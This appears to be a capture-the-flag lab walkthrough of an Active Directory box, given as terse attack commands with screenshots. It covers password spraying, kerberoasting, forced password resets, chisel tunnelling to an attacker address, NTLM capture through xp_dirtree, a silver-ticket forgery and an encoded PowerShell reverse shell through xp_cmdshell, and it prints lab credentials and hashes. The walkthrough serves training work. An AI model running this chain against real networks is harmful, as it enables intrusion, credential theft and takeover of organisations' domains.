```
nxc smb 192.168.182.21 -u users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst
```
or 
```
hydra -L users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst -f rdp://nagoya-industries.com
```

Now we get the password.


Now kerberoasting:
```
GetUserSPNs.py nagoya-industries.com/Craig.Carr:Spring2023 -request
```

We can crack it with hashcat2

Checking shares:
```
smbclient -L \\\\nagoya-industries.com\\ -U Craig.Carr%'Spring2023'
```




We have ResetPassword.exe:

Using dnsPy we can decompile this .exe file and get password:


Now we can verify:
```
nxc smb 192.168.162.21 -u svc_helpdesk -p U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```


Now we can run bloodhound.py:
```
bloodhound.py -u 'svc_helpdesk' -p 'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg' -ns 192.168.162.21 -d nagoya-industries.com -c all --zip
```


Only christopher is a member of Developers Group who are a member of the remote management users group which could be useful.



Now reset the password for Christopher.Lewis:
```
net rpc password "Christopher.Lewis" "Password123@" -U "nagoya-industries.com"/"svc_helpdesk"%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S nagoya-industries.com
```
Or 
```
rpcclient -U nagoya-industries/svc_helpdesk 192.168.162.21
setuserinfo2 Christopher.Lewis 23 Start123!
```

Now we have the password for Christopher.Lewis:


Now we can login through wvil-winrm:
```
evil-winrm -i 192.168.162.21 -u Christopher.Lewis -p 'Password123@'
```


Now we can check the ports running:\
```
netstat -ano
```


There is a port 1433 running SQL prolly.
We have svc_mssql user which we have creds for so we can try port forwarding this port to our machine.

Using chisel:
```
.\chisel.exe client 192.168.45.196:8001 R:1433:127.0.0.1:1433
```
On our machine:
```
chisel server --reverse --socks5 -p 8001
```

Now getting access to mssql:
```
mssqlclient.py svc_mssql@localhost -windows-auth
```

We are svc_mssql.

Now checking who's running the db:
```
exec xp_dirtree "\\192.168.45.196\share"
```
We can use responder to catch the user:


We are running as a service user we can do [[Silver Ticket Attack]]:
```
ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com Administrator
```

Now checking the domain:
```
get-addomain
```


We can add this to our /etc/hosts file
```
127.0.0.1       localhost nagoya.nagoya-industries.com nagoya-industries.com
```
localhost due to port forwarding.

Now we can login with mssqclient kerberos authentication:
```
KRB5CCNAME=Administrator.ccache mssqlclient.py nagoya.nagoya-industries.com -k
```

We are Administrator.(Took many tries it showed as svc_mssql user first.)

Now we can execute commands:
```
xp_cmdshell powershell -e gBUAEMAUABDAGwAaQBlAG4AdAAoACIAEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Now we have a reverse shell:

We can use our method of godpotato.

